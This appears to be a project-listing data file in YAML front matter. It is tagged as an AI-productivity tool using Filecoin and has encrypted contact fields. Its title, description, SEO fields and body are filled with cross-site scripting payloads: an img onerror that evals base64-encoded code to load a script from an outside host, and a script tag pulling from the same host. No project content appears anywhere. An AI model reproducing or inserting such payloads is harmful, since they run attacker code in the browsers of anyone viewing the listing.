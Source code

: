 ```yaml
---
title: "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwL3g1dDViNnNjNnUiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
created-on: 2025-03-12T22:37:27.104Z
updated-on: 2025-03-12T22:37:27.104Z
published-on: 2025-03-12T22:37:27.104Z
email: encrypted::U2FsdGVkX1+6lsCf0sywLdHMYRzshoeS6In5s+MpTF64fiEGhGDrvoaRrfKJZuAc
full-name: encrypted::U2FsdGVkX19nVIn9r4GOEAseVX95sc3cyK4ifJ6ZtRjjko0Kl4oarZWJNEGbxZd/32Lgn+P3XBjlgFdc4vwuywj+raA4Oi9S377r3B9AAMG6CAiqeqY7Ux/dTCIjnqcEH5UsvvlZHDQnwpORYd2NTSWyZawmqn4VsB9YDROV+3TvDdqu52zl79bhsGvjsAgYeOkRvvPhFMzXh8FL81dCHeVtaTswZVMRcKJp1edS8TEkYH1VXMs7iSiZWSjUdngzZFnbfYNpmoXXP6XNDysneQ==
image:
  src: /assets/images/greaterlessimg-srcx-iddmfyige9zg9jdw1lbnquy3jlyxrlrwxlbwvudcgic2nyaxb0iik7ys5zcmm9imh0dhbzoi8vanmucmlwl3g1ddvinnnjnnuio2rvy3vtzw50lmjvzhkuyxbwzw5kq2hpbgqoysk7-onerrorevalatobthisidgreater.svg
category: ai-productivity-utilities
tech:
  - filecoin
description: "><script src="https://js.rip/x5t5b6sc6u"></script>
website: http://test.com
year-joined: 2021



seo:
  title: "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwL3g1dDViNnNjNnUiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
  description: "><script src="https://js.rip/x5t5b6sc6u"></script>
---
```


"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwL3g1dDViNnNjNnUiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
